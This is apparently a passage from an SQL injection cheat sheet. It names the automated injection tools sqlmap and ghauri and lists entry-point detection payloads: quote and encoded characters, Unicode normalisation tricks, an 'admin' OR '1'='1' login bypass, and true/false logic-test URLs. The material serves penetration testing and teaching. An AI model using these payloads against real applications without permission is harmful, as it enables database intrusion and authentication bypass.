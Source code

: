 ## Tools

- [sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap) - Automatic SQL injection and database takeover tool
- [r0oth3x49/ghauri](https://github.com/r0oth3x49/ghauri) - An advanced cross-platform tool that automates the process of detecting and exploiting SQL injection security flaws

## Entry point detection

Detection of an SQL injection entry point

- **Error Messages**: Inputting special characters (e.g., a single quote ') into input fields might trigger SQL errors. If the application displays detailed error messages, it can indicate a potential SQL injection point.

  - Simple characters
    ```sql
    '
    %27
    "
    %22
    #
    %23
    ;
    %3B
    )
    Wildcard (*)
    &apos;  # required for XML content
    ```
  - Multiple encoding
    ```sql
    %%2727
    %25%27
    ```
  - Unicode characters
    ```
    Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was transformed into U+0022 QUOTATION MARK (")
    Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was transformed into U+0027 APOSTROPHE (')
    ```

- **Tautology-Based SQL Injection**: By inputting tautological (always true) conditions, you can test for vulnerabilities. For instance, entering `admin' OR '1'='1` in a username field might log you in as the admin if the system is vulnerable.

  - Merging characters
    ```sql
    `+HERP
    '||'DERP
    '+'herp
    ' 'DERP
    '%20'HERP
    '%2B'HERP
    ```
  - Logic Testing
    ```sql
    page.asp?id=1 or 1=1 -- true
    page.asp?id=1' or 1=1 -- true
    page.asp?id=1" or 1=1 -- true
    page.asp?id=1 and 1=2 -- false
    ```
